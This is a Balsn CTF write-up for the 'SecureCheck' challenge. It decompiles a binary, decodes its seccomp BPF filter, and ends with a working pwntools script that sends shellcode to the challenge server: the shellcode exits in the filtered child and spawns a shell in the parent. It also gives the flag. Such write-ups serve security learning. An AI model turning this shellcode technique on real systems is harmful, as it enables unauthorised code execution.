


# SecureCheck

So what we have in this ctf task - just an application which called `nosyscal` and nothing more... So let's try to open it with radare/cutter to see what's inside.

## Overview

Just an elf64 binary with two functions which are relevant `main` and `instal_syscall_filter`. Let's see what's inside `main` with decompiler's help :

## main
~~~~
undefined8 main(void)  
{  
	int32_t iVar1;  
	undefined8 uVar2;  
	int64_t in_FS_OFFSET;  
	int32_t iStack36;  
	code *pcStack32;  
	code *UNRECOVERED_JUMPTABLE;  
	int64_t iStack16;  
	  
	iStack16 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	pcStack32 = (code *)sym.imp.mmap(0, 0x1000, 7, 0x22, 0xffffffff, 0);  
	sym.imp.read(0, pcStack32, 0x1000);  
	UNRECOVERED_JUMPTABLE = pcStack32;  
	iVar1 = sym.imp.fork();  
	if (iVar1 == 0) {  
		sym.install_syscall_filter();  
	} else {  
		sym.imp.wait(&iStack36);  
		if (iStack36 != 0) {
			uVar2 = 0;  
			if (iStack16 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
					uVar2 = sym.imp.__stack_chk_fail();  
			}  
			return uVar2;
		}
	}
	// WARNING: Could not recover jumptable at 0x00000a20. Too many branches  
	// WARNING: Treating indirect jump as call  
	uVar2 = (*UNRECOVERED_JUMPTABLE)(0, 0, UNRECOVERED_JUMPTABLE, 0, 0, 0);  
	return uVar2;  
}
~~~~
From first view seems like `shellcode` task which gets the input, put it in the mmap and runs in both processes if child successfully exit.
Also noticed that all regs are xored also in the `main`.
~~~~
0x000009f6      xor     rbx, rbx
0x000009f9      xor     rcx, rcx
0x000009fc      xor     rdi, rdi
0x000009ff      xor     rsi, rsi
0x00000a02      xor     rsp, rsp
0x00000a05      xor     rbp, rbp
0x00000a08      xor     r8, r8
0x00000a0b      xor     r9, r9
0x00000a0e      xor     r10, r10
0x00000a11      xor     r11, r11
0x00000a14      xor     r12, r12
0x00000a17      xor     r13, r13
0x00000a1a      xor     r14, r14
0x00000a1d      xor     r15, r15
~~~~

But what's happening inside `install_syscall_filter`?

## install_syscall_filter
~~~~
undefined8 sym.install_syscall_filter(void)  
{  
	int64_t iVar1;  
	int32_t iVar2;  
	undefined8 uVar3;  
	int64_t in_FS_OFFSET;  
	uint32_t v3;  
	int32_t var_58h;  
	int32_t var_50h;  
	int32_t var_48h;  
	int32_t var_40h;  
	int32_t var_38h;  
	int32_t var_30h;  
	int32_t var_28h;  
	int32_t var_20h;  
	int32_t var_18h;  
	int32_t var_10h;  
	int32_t canary;  
	  
	iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	v3._0_2_ = 9;  
	iVar2 = sym.imp.prctl(0x26, 1, 0, 0, 0);  
	if (iVar2 == 0) {  
		iVar2 = sym.imp.prctl(0x16, 2, &v3);  
	if (iVar2 == 0) {  
		uVar3 = 0;  
	goto code_r0x0000096b;  
	}  
		sym.imp.perror(0xaf8);  
	} else {  
		sym.imp.perror(0xae4);  
	}  
	uVar3 = 1;  
	code_r0x0000096b:  
	if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
		uVar3 = sym.imp.__stack_chk_fail();  
	}  
	return uVar3;  
}
~~~~
`prctl` calls with some variables and all `vars_*` on stack are not relevant from radare's opinion, heh.  Those  identifiers (0x16/PR_SET_SECCOMP, 0x26/PR_SET_NO_NEW_PRIVS) points out on some `seccomp` application filtering, interesting. Need to find out then what's coming as `v3`, there is only size of `v3` is pointed out but where is the data?

Seems like radare2 not smart enough about variables in decompile section :) What is that? Oh wait, seems like `sock_filter` structures.
~~~~
{0x20, 0, 0, 4}
{0x15, 1, 0, 0xc000003e}
{0x6, 0, 0, 0}
{0x20, 0, 0, 0}
{0x15, 0, 1, 0x3c}
{0x6, 0, 0, 0x7fff0000}
{0x15, 0, 1, 0xe7}
{0x6, 0, 0, 0x7fff0000}
{0x6, 0, 0, 0}
~~~~
Let's disassemble with `bpf_dbg` and see what the rules are on:
~~~~
l0: ld [4] 
l1: jeq #0xc000003e, l3, l2 
l2: ret #0 
l3: ld [0] 
l4: jeq #0x3c, l5, l6
l5: ret #0x7fff0000 
l6: jeq #0xe7, l7, l8 
l7: ret #0x7fff0000 
l8: ret #0
~~~~
Hm, interesting,
 - 0x3e/62 - kill
 - 0x3c/60 - exit
 - 0xe7/231 - exit group

So we're able to use only exit/exit group calls, otherwise we will be killed.
What should we do in this case?

## Solution

After some discussion we decide to `exit` from child and run `shell` on parent with shellcode because parent will not be affected by child's limitations with `prctl`. But how we do know where we are in child or in parent? Let's coin flip and decide from it, of course it will not happen from first attempt but it should after some time. `rdtsc` will do the coin flip magic... Let's code with pwntools :
~~~~
#!/usr/bin/env python3  
from pwn import *  
  
context.arch = 'amd64'  
shellsource = \  
		' rdtsc\n' + \  
		' test rax, 0x100\n' + \  
		' lea rsp, [rest + rip]\n' + \  
		' jz exit0\n' + \  
		shellcraft.amd64.linux.sh() + \  
		'exit0:\n' + \  
		shellcraft.amd64.linux.exit(0) + \  
		' .skip 512\n' + \  
		'rest:\n'  
  
print(shellsource)  
shellcode = asm(shellsource)  
p = remote('securecheck.balsnctf.com', 54321)  
p.send(shellcode)  
p.interactive()
~~~~
After some attempts as expected we got the flag, hurray!

*Balsn{Sam3_Cod3_Same_Cont3xt_Diff3r3nt_World}*

